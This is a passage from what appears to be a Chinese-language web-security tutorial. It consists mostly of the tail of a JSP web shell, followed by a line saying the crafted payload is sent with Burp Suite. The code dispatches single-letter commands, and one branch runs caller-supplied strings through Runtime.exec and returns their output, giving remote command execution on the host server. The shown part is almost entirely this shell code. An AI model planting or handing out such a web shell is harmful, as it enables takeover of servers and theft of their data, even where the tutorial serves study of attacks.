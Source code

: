 ```
           KK(z1, z2);  
           sb.append("1");  
      } else if (Z.equals("L")) {  
           LL(z1, z2);  
         sb.append("1");  
    } else if (Z.equals("M")) {  
           String[] c = { z1.substring(2), z1.substring(0, 2), z2 };  
           Process p = Runtime.getRuntime().exec(c);  
         MM(p.getInputStream(), sb);  
         MM(p.getErrorStream(), sb);  
      } else if (Z.equals("N")) {  
          NN(z1, sb);  
        } else if (Z.equals("O")) {  
            OO(z1, sb);  
       } else if (Z.equals("P")) {  
           PP(z1, sb);  
       } else if (Z.equals("Q")) {  
        QQ(cs, z1, z2, sb,z2.indexOf("-to:")!=-1?z2.substring(z2.indexOf("-to:")+4,z2.length()):s.replaceAll("\\\\", "/")+"images/");  
     }  
    } catch (Exception e) {  
 sb.append("ERROR" + ":// " + e.toString());  
  }  
sb.append("|" + "<-");  
out.print(sb.toString());  
}  
%> 
```

我们还是利用 burpsuite 发送我们构造的 payload：

![image](img/ce9b74e3b1204cd7967a4d2f932b1853.png)

